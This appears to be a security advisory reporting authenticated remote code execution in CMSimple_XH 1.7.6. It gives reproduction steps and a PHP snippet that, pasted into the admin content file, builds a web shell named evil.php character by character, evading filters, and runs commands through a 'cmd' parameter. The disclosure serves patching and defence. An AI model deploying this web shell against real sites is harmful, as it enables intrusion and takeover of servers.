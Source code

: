# RCE at cmsimple-xh 1.7.6
Similarly to https://github.com/advisories/GHSA-56jv-hmch-qm6c , it is possible to upload a PHP payload to execute commands on the host. I requires being **Authenticated**.

Version: CMSimple_XH 1.7.6

## Steps to reproduce:
1. Login as Admin
2. Move to `/?file=content`
3. Add the following code into **Content file**:
```php
file_put_contents('evil.php', '');
$fileHandle = fopen('evil.php', 'a');
fwrite($fileHandle, '<');
fwrite($fileHandle, '?');
fwrite($fileHandle, 'p');
fwrite($fileHandle, 'h');
fwrite($fileHandle, 'p');
fwrite($fileHandle, ' ');
fwrite($fileHandle, 'system');
fwrite($fileHandle, '(');
fwrite($fileHandle, '$');
fwrite($fileHandle, '_GET[');
fwrite($fileHandle, '"cmd"]');
fwrite($fileHandle, ');');
fwrite($fileHandle, '?');
fwrite($fileHandle, '>');
fclose($fileHandle);
```
4. Save and refresh
5. Move to `/evil.php?cmd=id`

## Screenshots:

![1](1.png)
![2](2.png)
![3](3.png)

